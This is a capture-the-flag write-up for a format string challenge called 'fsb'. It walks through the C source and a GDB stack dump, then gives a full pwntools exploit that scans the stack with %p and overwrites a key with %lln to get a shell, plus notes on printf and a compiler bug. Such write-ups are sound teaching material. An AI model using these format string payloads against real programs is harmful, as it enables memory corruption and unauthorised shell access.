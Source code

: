This challenge is all about format strings.
If you feel rusty on them you can check out the [revision](#fstring_revision) section bellow,
it gives a brief summary on everything you need to know about them to do the exploit.

Now to the actual challenge, let's take a look at `fsb.c`:
```c
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
	char* args[]={"/bin/sh", 0};
	int i;

	char*** pargv = &argv;
	char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
	*pargv=0;
	*penvp=0;

	for(i=0; i<4; i++){
		printf("Give me some format strings(%d)\n", i+1);
		read(0, buf, 100);
		printf(buf);
	}

	printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
	return 0;
}

int main(int argc, char* argv[], char** envp){

	int fd = open("/dev/urandom", O_RDONLY);
	if( fd==-1 || read(fd, &key, 8) != 8 ){
		printf("Error, tell admin\n");
		return 0;
	}
	close(fd);

	alloca(0x12345 & key);

	fsb(argv, envp); // exploit this format string bug!
	return 0;
}
```
In the `main` function the program reads some random data into the 8-byte `key` variable,
then it [allocates some bytes on the stack](https://www.man7.org/linux/man-pages/man3/alloca.3.html)
and calls `fsb` which is evidently an abbreviation for "format string bug".
The `fsb` function deletes the arguments and environment of the program
then calls `printf` four times with format strings passed to `stdin`
and get's the user shell if they can guess the contents of `key`.

As to how to exploit the format strings I got two ideas:

- Read from `key`.
- Write to `key`.

For either of the approaches to work there has to be a pointer to `key` somewhere on the stack to refer to with a format specifier.
Let's check for that in GDB:
```
❯ readelf -s fsb | grep key
    52: 0804a060     8 OBJECT  GLOBAL DEFAULT   25 key
           ^
           |_____ fetch address of key.
❯ gdb fsb
...
(gdb) b *0x08048759       <---------- break before alloca().
Breakpoint 1 at 0x8048759
(gdb) r
...
Breakpoint 1, 0x08048759 in main ()
(gdb) set $eax = 0        <---------- tamper with eax to make alloca(key & 12345) equivalent to alloca(0).
(gdb) b *0x08048610       <---------- break at call printf(buf) in fsb.
Breakpoint 2 at 0x8048610
(gdb) c
Continuing.
Give me some format strings(1)
whatever man

Breakpoint 2, 0x08048610 in fsb ()
(gdb) x/60x $esp
0xffffcbf0:	0x0804a100	0x0804a100	0x00000064	0x0804828c
0xffffcc00:	0x0804a024	0x0804838c	0x0804823c	0xffffcc74
0xffffcc10:	0xf7d8a500	0x08048870	0x00000000	0x00000000
0xffffcc20:	0xffffce88	0xffffdfe8	0xffffcc40	0xffffcc44
0xffffcc30:	0xffffcc88	0xf7fdbec0	0xffffcc88	0x08048791
0xffffcc40:	0x00000000	0x00000000	0x080487a0	0x0804874e
0xffffcc50:	0x00000003	0x0804a060	0x00000008	0x00000000
...                                  ^
                                     |_____ as you can see address of key is at esp + 100.
```
What may come as a hindrance is that the `key` address could be anywhere given that `alloca` can allocate
up to `0x12345` bytes on the stack.
What we know is that it lies at least 100 bytes after `esp`.
We can try finding where it is by sending as input format strings like the following:
```
"%25$p %26$p %27$p ... " - prints [esp + 100], [esp + 104], [esp + 108] ...
```
With a 100 bytes format string we can search for `key` in the range `[esp + 100, esp + 160]`
We could also scan the stack further with consecutive queries but there is really no need to,
the number of bytes `alloca` allocated is `key & 0x12345 = key & 0b10010001101000101` so
the chance that the 5 most significant 1's get zeroed by the `&` is $\frac{1}{2^5} = \frac{1}{32}$,
this is easily bruteforceabe.

Now for the choice between reading and writing, it my seem like the two approaches are identical
but trust me, reading won't work (see [sidenode](#bug)) so just do writing.

Here is the final exploit implementing it all:
```python
from pwn import *

key = b'0x804a060'

while True:
    proc = process('./fsb', env={})

    proc.recvline()

    # get values in range [esp + 100, esp + 160].
    p = ' '.join('%{}$p'.format(i) for i in range(25, 25 + 16))
    proc.sendline(p.encode())
    vals = proc.recvline()

    # check for key address in vals.
    idx = next((i for i, x in enumerate(vals.split(b' ')) if x == key), None)
    if idx is None:
        proc.kill()
        continue

    # overwrite key with 0.
    p = '%{}$lln'.format(25 + idx)
    for i in range(3):
        # it's best to receive or else read() might consume more than a single line.
        proc.recvline()
        proc.sendline(p.encode())
        proc.recvline()

    # send 0 to be compared with key.
    proc.sendline(b'0')

    proc.interactive()
    proc.kill()
    exit(0)
```

```
fsb@pwnable:~$ python /tmp/fsb/script.py
[+] Starting local process './fsb': pid 354254
[*] Stopped process './fsb' (pid 354254)
...
[+] Starting local process './fsb': pid 354274
[*] Switching to interactive mode
Give me some format strings(4)

6$p 0x80483bd 0x1 0xf 0x8049ff4 0x10 0xf7705000 0xf7705000 (nil) 0x3 0xffefa1f0 (nil) (nil) 0xf756a647 0xf7705000
Wait a sec...
key :
Congratz!
$ ls
flag  fsb  fsb.c
$ cat flag
...(flag)...
```

<details id="fstring_revision">
<summary style="font-size: 1.2em;">
Quick revision on format strings
</summary>

Unlike typical C functions `printf` takes variadic number of arguments.
When a format specifier is encountered `printf` assumes that a
corresponding argument is passed at appropriate offset on the stack.
i.e. `printf("%i$p")` would print the `i`-th dword on the stack following the format string pointer.
It's the programmer's responsibility to actually pass that argument.
If they don't they would be reading random junk.
Here is a visualization of how `printf` sees the stack (at function entry):
```
 _____________
|_return_addr_|
|_fstring_ptr_|
|____arg1_____|
|____arg2_____|
|____arg3_____|
|____arg4_____|
|    ....     |
|____arg*_____|
```

As for the format specifiers there are
[plenty](https://www.man7.org/linux/man-pages/man3/printf.3.html)
of them, here are those of significance to us:
```
%p - formats the argument as a pointer
%n - writes the number of characters output by printf so far to the 4-byte cell referenced by the argument.
%lln - same as %n but assumes argument is a long long *
```

An example usage of `%n`:
```
int key = 0;
printf("some chars %n", &key);
assert(key == 11);
```
</details>

<details id="bug">
<summary style="font-size: 1.2em;">
A sidenote about a bug in the binary
</summary>

What if I told you that even if you knew the original `key` either by reading
it from the format strings or via some magic you wouldn't be able to get shell by passing it to the key prompt
(that is `pw == key` would always evaluate to `false`).
The reason for this is that there is actually a discrepancy between the assembly and the C code!

C source:
```c
unsigned long long pw = strtoull(buf2, 0, 10);
if(pw == key){
        printf("Congratz!\n");
        execve(args[0], args, 0);
        return 0;
}
```
Assembly output:
```asm
0x0804865f <+299>:	mov    DWORD PTR [esp+0x8],0xa
0x08048667 <+307>:	mov    DWORD PTR [esp+0x4],0x0
0x0804866f <+315>:	mov    DWORD PTR [esp],0x804a080
0x08048676 <+322>:	call   0x8048460 <strtoull@plt>     ; call strtoull(buf2, 0, 10) result is 8 bites thus stored in eax and edx
0x0804867b <+327>:	mov    edx,eax                      ; discard edx thus half of the result???
0x0804867d <+329>:	sar    edx,0x1f
0x08048680 <+332>:	mov    DWORD PTR [ebp-0x30],eax
0x08048683 <+335>:	mov    DWORD PTR [ebp-0x2c],edx
0x08048686 <+338>:	mov    eax,ds:0x804a060
0x0804868b <+343>:	mov    edx,DWORD PTR ds:0x804a064
0x08048691 <+349>:	mov    ecx,edx
0x08048693 <+351>:	xor    ecx,DWORD PTR [ebp-0x2c]
0x08048696 <+354>:	xor    eax,DWORD PTR [ebp-0x30]
0x08048699 <+357>:	or     eax,ecx
0x0804869b <+359>:	test   eax,eax
0x0804869d <+361>:	jne    0x80486cc <fsb+408>          ; bad branch
```
While in the C snippet the result of `strtoull` is an 8-byte integer
in assembly it is treated as a 4-byte integer and being cast (via sign extension) to an 8-byte integer.
My best guess as to why that happens is that somehow during compilation of the translation unit
a wrong prototype was used for `strtoull` like so:
```c
#include <stdio.h>
// erroneous! should be unsigned long long strtoull(...)
int strtoull(char *c, char**p, int base);

int main() {
	printf("%llx", strtoull("0xdeadbeefaabbccdd", 0, 16));
}
```
The above code prints `aabbccdd` when dynamically linked with `libc`.
</details>

